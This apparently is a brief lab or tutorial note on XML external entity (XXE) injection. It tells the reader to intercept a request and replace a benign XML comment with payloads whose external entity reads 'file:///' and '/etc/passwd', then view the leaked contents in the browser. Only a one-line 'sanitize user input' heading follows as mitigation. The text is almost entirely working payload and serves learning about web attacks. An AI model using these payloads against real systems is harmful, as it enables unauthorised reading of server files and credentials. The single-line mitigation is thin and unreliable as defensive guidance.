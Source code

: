 intercept

change
<?xml version='1.0'?><comment> <text>hello!</text></comment>

to 
<?xml version='1.0'?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///" >]>
<comment>
<text>OMAR_WAS_HERE&xxe;</text>
</comment>


then forward and see the result on browser


<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
<text>GIVENMEPASSWDs!&xxe;</text>


<h2>mititgating injection</h2>
<p><b>santize user input</b></p>

